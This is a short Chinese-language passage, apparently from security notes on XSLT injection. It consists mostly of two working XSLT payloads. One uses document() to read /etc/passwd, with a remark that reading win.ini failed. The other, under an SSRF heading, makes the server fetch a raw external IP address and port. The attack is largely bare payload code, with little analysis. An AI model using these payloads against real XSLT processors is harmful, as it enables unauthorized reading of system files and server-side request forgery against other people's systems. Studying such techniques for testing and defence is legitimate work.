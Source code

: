 可以通过document()访问外部XML文档中的节点，可读取文件

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="document('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```

![QQ_1730879978406](images/3.png)

这里读win.ini的时候报错了

![QQ_1730880095127](images/4.png)

## SSRF

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('http://47.93.248.221:2333')"/>
  </xsl:template>
</xsl:stylesheet>
```
